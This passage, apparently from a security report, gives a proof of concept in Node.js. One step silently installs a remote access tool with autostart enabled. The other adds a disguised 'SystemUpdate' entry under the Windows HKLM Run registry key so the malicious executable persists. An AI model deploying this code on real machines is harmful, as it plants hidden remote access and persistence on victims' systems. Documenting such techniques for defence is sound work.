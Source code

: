 ### Technical Impact
- **Confidentiality**: Ongoing exposure of sensitive data through persistent access
- **Integrity**: Unauthorized modification of system components and data
- **Availability**: Potential service disruption through malicious remote operations

## Proof of Concept

### Step 1: Silent Remote Access Tool Installation
```javascript
// Vulnerable remote access tool installation
const { exec } = require('child_process');
const path = require('path');

const installRemoteAccessTool = async (toolName, installPath) => {
    // Vulnerable: Silent installation with elevated privileges
    const installCommand = `${toolName}.exe INSTALL=${installPath} SILENT=1 STARTWITHWINDOWS=1 ENABLEAUTOUPDATE=1`;
    
    return new Promise((resolve, reject) => {
        exec(installCommand, { 
            windowsHide: true,
            // Vulnerable: No validation of installation source
            cwd: process.cwd()
        }, (error, stdout, stderr) => {
            if (error) {
                reject(error);
            } else {
                resolve(stdout);
            }
        });
    });
};

// Attack: Install malicious remote access tool
await installRemoteAccessTool('malicious_rat', 'C:\\Program Files\\LegitimateApp');
```

### Step 2: Registry Persistence
```javascript
// Vulnerable registry modification for persistence
const { execSync } = require('child_process');

const establishRegistryPersistence = () => {
    const registryKey = 'HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run';
    const maliciousPath = 'C:\\Program Files\\LegitimateApp\\malicious.exe';
    
    // Vulnerable: Direct registry modification without validation
    try {
        execSync(`reg add "${registryKey}" /v "SystemUpdate" /t REG_SZ /d "${maliciousPath}" /f`, {
            windowsHide: true
        });
        console.log('Registry persistence established');
    } catch (error) {
        console.error('Registry modification failed:', error);
    }
};
```
